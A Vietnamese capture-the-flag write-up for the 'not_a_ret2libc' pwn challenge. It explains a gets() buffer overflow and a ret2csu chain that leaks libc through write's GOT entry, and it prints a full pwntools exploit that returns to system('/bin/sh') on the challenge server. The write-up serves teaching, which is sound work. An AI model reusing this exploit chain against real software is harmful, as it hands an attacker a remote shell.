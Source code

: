### not_a_ret2libc

------
*Bên lề: Ở bài writeup này mình hướng đến các bạn đã hiểu về technique `buffer overflow` và `ret2libc` vậy nên nếu các bạn chưa hiểu về bug `buffer overflow` và `ret2libc` là gì thì có thể tham khảo ở đây:* 

buffer overflow: 

https://www.youtube.com/watch?v=1S0aBV-Waeo&ab_channel=Computerphile

https://www.youtube.com/watch?v=T03idxny9jE&ab_channel=LiveOverflow

ret2libc:   
            https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc  
            https://gist.github.com/selftaught/4ff7e46d0142e951f4b6008780ef0487 

#### Review 


Đây là một câu ROP cơ bản mình đánh giá nó sẽ hơi khó cho các bạn mới chơi tuy nhiên đối với các bạn đã hiểu cách hoạt động của các gadget rồi thì nó sẽ rất là dễ vậy nên mình đánh giá đây là một câu medium chứ không phải hard. 

Mục đích mình ra câu này chỉ để đánh giá xem khả năng đọc code asm của các bạn và hiểu cách hoạt động của nó vì thế nên mình cho sẵn luôn cả source code và libc để dễ exploit. 
![](test.png)

Đây là một file ELF có cấu trúc 64-bits và không bị stripped, các mitigation khá giống với bài `what_is_your_dream`, mình đã phân tích ở bên đó các bạn có thể qua bài đó để tham khảo. Check các lỗi cơ bản thì có vẻ bài dính lỗi `buffer overflow`. 

```c
#include <stdio.h>

int main()
{
    char buf;
    write(1,"give me something please: ",0x1b);
    gets(&buf);
return 0;
}
```

#### Analyze and Find bug

Code khá là ngắn, rất phù hợp cho những bạn lười reverse như mình. Chỉ là khởi tạo biến buf mang kiểu char và chỉ có 1 byte, sau đó in ra chuỗi `"give me something please:"` thông qua hàm `write`. Tiếp theo đề bài cho chúng ta nhập input vào bằng hàm `gets` thông qua biến `buf`. Nếu các bạn chưa biết thì hàm `gets` rất là nguy hiểm, attacker sẽ lợi dụng việc hàm `gets` chỉ đọc đến khi xuống dòng, lợi dụng điều này ta có thể gây ra lỗi `buffer overflow`. 

Vì NX được bật và RELRO partial, ngoài ra bài này cho sẵn cả libc vậy nên hướng làm bài này đó là lợi dụng bug `buffer overflow` để có thể build ROP chain ghi đè `rsp` về hàm `write(1,địa chỉ của hàm write ở GOT,8)` mục đích ghi đè `rsp` để chúng ta có thể leak địa chỉ libc của hàm `write` rồi sau đó tính toán để có thể đạt được địa chỉ libc base, rồi từ đó áp dụng hướng exploit cũ, ghi đè `rsp` để có thể return về ROP chain của chúng ta: `system('/bin/sh')`


#### Exploit

Bài này xem qua thì ở GOT chỉ có mỗi hàm `write` là có thể leak được địa chỉ libc của chính nó. Tuy nhiên để control được hàm write thì cần đến 3 tham số đó là rdi(tham số thứ nhất), rsi(tham số thứ hai), rdx(tham số thứ ba), nếu mà tìm sơ sơ thì ta chỉ có được mỗi tham số rdi, thì chúng ta không thể control được. Chúng ta cần tìm sâu hơn nếu muốn control hàm `write`. 

Lướt xuống nhìn kỹ ở hàm `__libc_csu_init` trong ida thì nó pop ra một mớ địa chỉ 

```
.text:00000000004011FA                 pop     rbx
.text:00000000004011FB                 pop     rbp
.text:00000000004011FC                 pop     r12
.text:00000000004011FE                 pop     r13
.text:0000000000401200                 pop     r14
.text:0000000000401202                 pop     r15
.text:0000000000401204                 retn
```

Nhìn ở bên trên thì ta có thể thấy ta có thể control thanh ghi rsi và rdx thông qua r14 và r13 bằng instruction: `mov rdx, r14` và `mov rsi, r13` 

```
.text:00000000004011E0                 mov     rdx, r14
.text:00000000004011E3                 mov     rsi, r13
.text:00000000004011E6                 mov     edi, r12d
.text:00000000004011E9                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:00000000004011ED                 add     rbx, 1
.text:00000000004011F1                 cmp     rbp, rbx
.text:00000000004011F4                 jnz     short loc_4011E0
```

Vậy là chúng ta đã có thể control được thanh ghi rsi và rdx. Tuy nhiên chúng ta cần phải thỏa mãn điều kiện của instruction `cmp rbp, rbx`, điều này khá là dễ dàng khi ta đã có hết tất cả những gì chúng ta cần, vì lúc sau rbx được cộng lên 1, thì chúng ta chỉ cần cho `rbx = 0` còn `rbp = 1`. Sau đó chúng ta chèn 56 bytes rác để có thể ghi đè instruction từ `00000000004011FA` tới `0000000000401202` để có thể return về địa chỉ mà ta muốn. Sau khi đã có `libc` rồi thì mọi thứ còn lại khá là đơn giản. Mình sẽ nói rõ hơn ở bên dưới exploit

#### Exploit 


```py 

from pwn import * 

r = remote("45.122.249.68", 10022)
# r = process('./not_a_ret2libc')
elf = context.binary = ELF('./not_a_ret2libc')
# libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
libc = ELF('./libc-2.31.so')
csu1 = 0x4011fa 
# .text:00000000004011FA                 pop     rbx
# .text:00000000004011FB                 pop     rbp
# .text:00000000004011FC                 pop     r12
# .text:00000000004011FE                 pop     r13
# .text:0000000000401200                 pop     r14
# .text:0000000000401202                 pop     r15
# .text:0000000000401204                 retn

csu2 = 0x4011e0
# .text:00000000004011E0                 mov     rdx, r14
# .text:00000000004011E3                 mov     rsi, r13
# .text:00000000004011E6                 mov     edi, r12d
# .text:00000000004011E9                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
# .text:00000000004011ED                 add     rbx, 1
# .text:00000000004011F1                 cmp     rbp, rbx
# .text:00000000004011F4                 jnz     short loc_4011E0
# rbx =0; rbp =1; r12 = rdi; r13 = rsi; r14 = rdx
pop_rdi = 0x401203
ret = 0x40101a
payload = b'a' # nhập 1 byte cho biến buf
payload = p64(0) # ghi đè 8 bytes của thanh ghi rbp
payload += p64(csu1) #ghi đè rsp về địa chỉ của csu1 là instruction pop các thanh ghi mà ta cần
payload += p64(0) #rbx = 0
payload += p64(1) # rbp = 1
# write(1,elf.got['write'],6) => rdi =1, rsi = elf.got['write'], rdx = 6
payload += p64(1) #r12 = rdi = 1 
payload += p64(elf.got['write']) # r13 = rsi = elf.got['write']
payload += p64(6) #r14 = rdx = 6
payload += p64(elf.got['write']) # r15 = elf.got['write'] để gọi hàm write
payload += p64(csu2) # gọi csu2 để cho nó truyền các thanh ghi mà mình cần
payload += p64(0)*7 #ghi đè các bytes rác để có thể reach tới ret
payload += p64(elf.sym['main']) #return về hàm main để có thể in ra địa chỉ của libc cũng như hoàn thành nốt exploit
r.sendline(payload)
r.recvuntil(b"give me something please: \x00")
leak = r.recvuntil(b"give me",drop = True)
leak = u64(leak.ljust(8,b'\x00'))
print("write leak: "+hex(leak))
libc.address = leak - libc.sym['write']
print("libc base: " +hex(libc.address))
payload_1  = b'a' # nhập 1 byte cho biến buf
payload_1 += p64(0) #ghi đè 8 bytes của thanh ghi rbp
payload_1 += p64(ret) # ở một số phiên bản của glibc cần phải chèn ret để cho nó align payload với stack, việc này tùy các phiên bản
payload_1 += p64(pop_rdi) # gọi rdi
payload_1 += p64(next(libc.search(b'/bin/sh'))) #truyền '/bin/sh' vào tham số thứ nhất
payload_1 += p64(libc.sym['system']) #ghi đè rsp bằng việc gọi hàm system
r.sendline(payload_1)
r.interactive()
```

Mình khuyến khích các bạn build ROP chain chứ có địa chỉ gốc của libc rồi gọi one_gadget, việc lạm dụng one_gadget quá nhiều sẽ khiến sau này ở một số bài các bạn sẽ không hiểu rõ bản chất của nó. 
